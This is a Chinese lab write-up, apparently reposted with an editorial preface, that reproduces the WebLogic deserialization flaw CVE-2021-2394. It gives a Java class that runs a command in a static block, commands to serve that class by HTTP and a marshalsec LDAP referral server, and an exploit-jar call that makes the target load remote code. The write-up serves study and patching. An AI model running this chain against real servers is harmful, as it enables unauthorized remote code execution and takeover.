







# CVE-2021-2394：Weblogic 反序列化漏洞复现

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：T3/IIOP access, compatible unpatched build and JDK/JNDI remote class-loading conditions
- 证据范围：Demonstrates external exploit JAR workflow without chain source; target and LDAP hosts differ while LDAP referral advertises 127.0.0.1, which normally points back at victim.

### 已有来源支持的更正

- July CPU explicitly lists CVE-2021-2394, T3/IIOP unauthenticated and the five listed product versions

### 本次正文校订

- 将 CVE-2021-2394 修复依据更正为 2021 年 7 月 CPU。
- 原 Maven 命令保留排版长横线；实际执行参数通常需要 ASCII 连字符，该校订意见置于原始命令之外。
- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Remediation links April 2021 CPU despite July 2021 disclosure; correct July advisory verified
- Missing exact JDK build and patch level
- Maven -D option uses typographic en dash
- Official download alone does not establish vulnerable unpatched environment
- Long unrelated marketing footer

### 核验来源

- https://www.oracle.com/security-alerts/cpujul2021.html

### 操作风险与资料使用

- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/yTSqoE-p63HR3WhosnbBRw)

**上方蓝色字体关注我们，一起学安全！**

**作者：Xz****@Timeline Sec  
**

**本文字数：815**

**阅读时长：2～3min**

**声明：仅供学习参考使用，请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

WebLogic 是用于开发、集成、部署和管理大型分布式 Web 应用、网络应用和数据库应用的 Java 应用服务器。

**0x02 漏洞概述**  

  

**编号：CVE-2021-2394**  
Oracle 官方发布了 2021 年 7 月份安全更新通告，通告中披露了 WebLogic 组件存在高危漏洞，攻击者可以在未授权的情况下通过 IIOP、T3 协议对存在漏洞的 WebLogic Server 组件进行攻击。成功利用该漏洞的攻击者可以接管 WebLogic Server。  

这是一个二次反序列化漏洞，是 CVE-2020-14756 和 CVE-2020-14825 的调用链相结合组成一条新的调用链来绕过 weblogic 黑名单列表。

**0x03 影响版本**  

  

Oracle WebLogic Server 10.3.6.0.0

Oracle WebLogic Server 12.1.3.0.0

Oracle WebLogic Server 12.2.1.3.0

Oracle WebLogic Server 12.2.1.4.0

Oracle WebLogic Server 14.1.1.0.0

**0x04 环境搭建**  

  

系统环境：window10 系统

weblogic 版本：12.2.1.3, 直接官网下载就可以  



weblogic 安装过程省略，很简单

安装好之后，在此目录启动就可以

```
C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\startWebLogic.cmd
```



weblogic 启动成功的截图

  

**0x05 漏洞复现**  

  

1、下载 marshalsec 利用 marshalsec 开启 JNDI 服务

```
https://github.com/mbechler/marshalsec # 需要自己编译
mvn clean package –DskipTests

https://github.com/RandomRobbieBF/marshalsec-jar # 可以直接使用
```

2、创建 Exploit.java，通过 javac 编译得到 Exploit.class     

```
public class Exploit {

    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
```

3、在同目录下使用 python 开启一个 http 服务，并使用 marshalsec 开启 JNDI 服务

```shell
python -m http.server 8000
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Exploit" 8087
```

  

  

4、利用我们组 lz2y 大佬写的 exp 进行复现

```
https://github.com/lz2y/CVE-2021-2394/releases/tag/2.0
```

```
java -jar CVE_2021_2394.jar 192.168.31.3 7001 ldap://192.168.3.35:8087/Exploit
```



  
目标机成功弹框



**0x06 修复方式**  

  

当前官方已发布受影响版本的对应补丁，建议受影响的用户及时更新官方的安全补丁。链接如下：

https://www.oracle.com/security-alerts/cpujul2021.html

```
参考链接：
```

https://github.com/lz2y/CVE-2021-2394/  

https://mp.weixin.qq.com/s/wFHhWvnCLm1xcWZIbv6O3A


**往期回顾**  

  

[](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247487675&idx=1&sn=736d0216bca8525981a4ff66dc6e4887&chksm=9039364ba74ebf5d1d1a594f21967c78c6530641eff23efcee4ce922ce85a847e9acae3af7e1&scene=21#wechat_redirect)  

[](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247486827&idx=1&sn=cd5e393a098627257dffedf500eb2509&chksm=90392b9ba74ea28d4fa4473c175d3842723e1f3d3d1786dbed9fa0fbb6f4394138933caf541c&scene=21#wechat_redirect)  

[](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247486336&idx=1&sn=2a054ededbc855622fe2ac6c8906aae0&chksm=90392d70a74ea46635bef3cd4fc414cef87d16a1875ccb690f6eadb4304337e0d2b4772a2659&scene=21#wechat_redirect)


  


**阅读原文看更多复现文章**

Timeline Sec 团队  

安全路上，与你并肩前行

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
